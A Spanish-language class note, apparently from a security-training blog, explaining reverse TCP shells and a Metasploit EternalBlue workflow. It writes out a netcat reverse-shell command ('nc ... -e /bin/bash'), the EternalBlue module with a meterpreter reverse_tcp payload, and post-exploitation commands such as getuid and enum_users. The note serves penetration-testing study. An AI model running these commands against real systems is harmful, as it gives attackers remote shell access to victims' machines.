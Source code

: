 ```yaml
---
title: Clase- Buffer Overflows
date: 2024-11-05 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [rhosts, sam, system]  # TAG names should always be lowercase
---
```

# Definicion:
### Conexion tcp reversa
Una conexión TCP reserva es una técnica utilizada para establecer una comunicación segura y controlada entre dos dispositivos a través de Internet o una red local. En este escenario, una máquina (generalmente una víctima) se conecta de manera controlada a otra máquina (usualmente un atacante o servidor de control) para crear un canal de comunicación.

### Ejemplo de Conexión TCP Reserva
Imaginemos un escenario en el que un analista de seguridad necesita acceder remotamente a un servidor ubicado detrás de un firewall que bloquea las conexiones entrantes:

#### 1. Máquina Atacante (Servidor de Control): 
Configura un servidor para escuchar en un puerto específico (por ejemplo, puerto 4444).

````bash
nc -lvp 4444
````
#### 2. Máquina Víctima (Cliente):
 Inicia una conexión hacia el servidor de control usando una herramienta como Netcat.

````bash
nc [IP del servidor de control] 4444 -e /bin/bash
````
Una vez establecida la conexión, la máquina atacante tiene acceso remoto al shell de la máquina víctima. Esta técnica es comúnmente utilizada en pruebas de penetración y ataques para sortear restricciones de red.

#### Referencias: 

<a href="https://www.hackingarticles.in/reverse-tcp-shells/?form=MG0AV3">Reverse TCP Shells in Penetration Testing</a>

<a href="https://pentestlab.blog/understanding-reverse-tcp-connections/?form=MG0AV3">Understanding Reverse TCP Connections</a>

Avanvce: 
````bash
use exploit/windows/smb/ms17_010_eternalblue
````

![f5](/assets/imagen/f5.png)

````bash
set payload windows/meterpreter/reverse_tcp
````
![f51](/assets/imagen/f51.png)

Se configura la dirección IP y el puerto de la máquina atacante:

![f52](/assets/imagen/f52.png)

Cuando el exploit se ejecuta con éxito, la máquina objetivo se conectará a la máquina del atacante en el puerto especificado (en este caso, el puerto 4444). La máquina del atacante estará a la escucha en ese puerto y, si todo está configurado correctamente, se establecerá una sesión de Meterpreter.

Una vez que se obtiene la conexión de retorno TCP (utilizando cualquiera de las direcciones de retorno que permiten la ejecución exitosa del exploit), se puede investigar los permisos de la shell (es decir, los permisos del usuario que ejecuta esa shell).

Para obtener información sobre el sistema, se puede utilizar el comando "sysinfo" para obtener una visión general del sistema.

En resumen, el texto describe el flujo de trabajo después de que un exploit se ejecuta con éxito, donde se establece una conexión de retorno y se puede recopilar información sobre el sistema objetivo.

![f53](/assets/imagen/f53.png)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````
